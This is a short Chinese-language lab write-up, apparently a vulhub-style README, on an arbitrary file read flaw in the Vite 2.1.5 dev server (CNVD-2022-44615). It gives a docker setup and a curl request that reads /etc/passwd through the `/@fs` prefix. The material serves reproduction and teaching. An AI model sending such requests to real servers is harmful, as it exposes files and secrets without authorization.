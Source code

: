 # Vite开发服务器任意文件读取漏洞（CNVD-2022-44615）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 2.3.0 版本之前，可以通过 `@fs` 前缀读取文件系统上的任意文件。

参考链接：

- <https://github.com/vitejs/vite/issues/2820>

## 环境搭建

执行以下命令启动Vite 2.1.5开发服务器：

```bash
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

## 漏洞复现

使用标准的`@fs`前缀访问`/etc/passwd`，可以获取文件内容：

```bash
curl "http://your-ip:5173/@fs/etc/passwd
```

![](1.png)
